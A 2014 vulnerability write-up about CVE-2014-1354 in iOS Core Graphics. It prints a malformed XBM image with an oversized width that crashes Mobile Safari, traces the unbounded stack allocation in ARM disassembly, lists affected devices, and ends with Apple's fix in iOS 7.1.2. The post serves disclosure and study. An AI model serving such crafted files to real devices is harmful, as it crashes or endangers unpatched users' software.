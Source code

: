 ```yaml
---
title: "CVE-2014-1354: how to find a critical bug in iOS"
date: 2014-03-28
draft: false
toc: true
math: false
type: post
---
```


In this article we will find a critical bug in iOS Core Graphics. It will be a true old-style manual research; we will not use any automatic vulnerability scanners, code analysers, symbolic execution tools etc.

# Finding a bug

We will use the following "sandbox": 

* iPhone 4
* iOS 7.0.4 with evasi0n jailbreak
* LLDB + debugserver

We will test Mobile Safari. We are going to do the following: 

1. Choose an ancient multimedia file formal which is not used anymore but still supported by Mobile Safari.
2. Write a fuzzer for the file format and fuzz Mobile Safari.
3. …
4. Profit? If no, just start from the beginning.

Lets choose the multimedia format. Wikipedia says that WebKit (and, therefore, Mobile Safari) supports [XBM](http://en.wikipedia.org/wiki/XBM). The format is as old as mammoth's crap and nobody used it anymore. So, probably, the developers of WebKit and Mobile Safari do not test XBM support really careful. Ok, the multimedia format is chosen. Now let's read [the description of XBM](http://www.fileformat.info/format/xbm/egff.htm) and find a sample of XBM file in the Internet. After a quick search, we have found the following XBM file: 

```
#define test_width 16
#define test_height 16
static unsigned char test_bits[] = {
     0xff, 0xff, 0x01, 0x80, 0xfd, 0xbf, 0x05, 0xa0, 0xf5, 0xaf, 0x15, 0xa8,
     0xd5, 0xab, 0x55, 0xaa, 0x55, 0xaa, 0xd5, 0xab, 0x15, 0xa8, 0xf5, 0xaf,
     0x05, 0xa0, 0xfd, 0xbf, 0x01, 0x80, 0xff, 0xff };
```

It looks like concentric squares:

![](concentric-square.png)

Let's "damage" the image. Of course, writing a fuzzer for XBM is a good idea, but I'm too lazy to do it. So first will try to "damage" the image manually. For example, let's play with the first line in the image file (an image width) and open "damaged" images in Mobile Safari one by one. After several tries, we found that if the image width is big (>100000), Mobile Safari crashes. E.g. Mobile Safari just closes without any messages if we try to open the following XBM image file: 

```
#define test_width 123456
#define test_height 16
static unsigned char test_bits[] = {
     0xff, 0xff, 0x01, 0x80, 0xfd, 0xbf, 0x05, 0xa0, 0xf5, 0xaf, 0x15, 0xa8,
     0xd5, 0xab, 0x55, 0xaa, 0x55, 0xaa, 0xd5, 0xab, 0x15, 0xa8, 0xf5, 0xaf,
     0x05, 0xa0, 0xfd, 0xbf, 0x01, 0x80, 0xff, 0xff };
```

# Analyzing the bug

Let's analyze the bug. Crash Mobile Safari under LLDB and see the backtrace:

![](mobile-safari-crash.png)

It looks like the function `argb32_image_mark` in `CoreGraphics` is the reason of the bug. If we reopen the image in Mobile Safari, breakpoint `argb32_image_mark` and trace it, we will see the following: 

```
CoreGraphics`argb32_image_mark (at 0x2f96a970):
...
0x2f96a97a:  mov    r6, sp          ; r6 = sp
0x2f96a97c:  mov    r5, r0          ; r5 = the first argument of argb32_image_mark
...
0x2f96a9a0:  ldr    r0, [r5, #4]    ; r0 = [the first argument + 4] = image width
...
0x2f96a9b0:  str    r0, [r6, #100]  ; save the image width to a local var
...
0x2f96a9d2:  ldr    r3, [r1, #12]   ; r3 = [the second argument + 12]
...
0x2f96a9ea:  ldr    r1, [r6, #100]  ; r1 = the image width
...
0x2f96a9f6:  adds   r0, r3, #6      ; r0 = r3 + 6
0x2f96a9f8:  muls   r0, r1, r0      ; r0 = r1*r0
0x2f96a9fa:  add.w  r2, r0, #96     ; r2 = r0 + 96
...
0x2f96aa04:  adds   r0, r2, #3      ; r0 = r2 + 3
0x2f96aa06:  bic    r0, r0, #3      ; r0 = r0 & 0xfffffff8
0x2f96aa0a:  sub.w  r11, sp, r0     ; r11 = sp - r0
0x2f96aa0e:  mov    sp, r11         ; sp = r11
```

Now we have 

```
the new value of sp = sp - (([the second argument + 12] + 6) * the image width + 99) & 0xfffffff8
```

Numerous experiments show that `[the second argument + 12]` is always zero. So 

```
the new value of sp = sp - (6 * the image width + 99) & 0xfffffff8
```

The function `argb32_image_mark` does not check parameters as it should, so if the image width is big, `sp` runs out of the memory allocated for stack. After that, `argb32_image_mark` calls `memset` and try to fill an unallocated memory range with zeros: 

```
0x2f96aa10:  mov    r0, r11         ; destination address = the new value of sp
0x2f96aa12:  movs   r1, #0          ; memset should zero the destination address
0x2f96aa14:  blx    0x2fa339cc      ; call memset
```

It crashes `CoreGraphics`. This is the critical bug promised at the very beginning of the article :) 

# Where does it work?

The bug is reproduced with the following devices / iOS versions: 

* iPhone 4 / iOS 7.0.4
* iPod Touch 4g / iOS 6.1.5 (10b400) — thanks [Templier](http://habrahabr.ru/users/templier/) for testing
* iPad mini Retina / iOS 7.0.4 — thanks [Templier](http://habrahabr.ru/users/templier/) for testing
* iPad mini Retina / iOS 7.0.6 — thanks [maxru](http://habrahabr.ru/users/maxru/) for testing
* iPad Air / iOS 7.0.4 — thanks [ryad0m](http://habrahabr.ru/users/ryad0m/) for testing
* iPad Air / iOS 7.0.6 — thanks [ryad0m](http://habrahabr.ru/users/ryad0m/) for testing
* iPhone 5 / iOS 6.1 — thanks [silvansky](http://habrahabr.ru/users/silvansky/) for testing
* iPhone 5 / iOS 7.0.6 — thanks [Yekver](http://habrahabr.ru/users/yekver/) for testing
* iPhone 5s / latest iOS 7.1 — thanks [Anakros](http://habrahabr.ru/users/anakros/) for testing

As you see it, the bug is quite old. If you wanna test your device / iOS version, just open the link with your Mobile Safari: [test.xbm](test.xbm)

So it goes.

**Update from May 12, 2014:** I have reported this issue to Apple a month before the post was published. It's not fixed yet, even in iOS 7.1.1. It looks like they are overloaded with critical bugs and have no time to fix this one :(

**Update from Jun 20, 2014:** Apple wrote a mail. They are going to assign a CVE number to the bug and fix it. Well, better later then never...

**Update from Jun 30, 2014**:

> APPLE-SA-2014-06-30-3 iOS 7.1.2
>
> iOS 7.1.2 is now available and addresses the following:
>
> ...
>
> CoreGraphics
>
> Available for:  iPhone 4 and later, iPod touch (5th generation) and later, iPad 2 and later
>
> Impact:  Viewing a maliciously crafted XBM file may lead to an unexpected application termination or arbitrary code execution
>
> Description:  An unbounded stack allocation issue existed in the handling of XBM files. This issue was addressed through improved bounds checking.
>
> CVE-ID
>
> CVE-2014-1354 : Dima Kovalenko of codedigging.com

So finally they fixed the bug in iOS 7.1.2.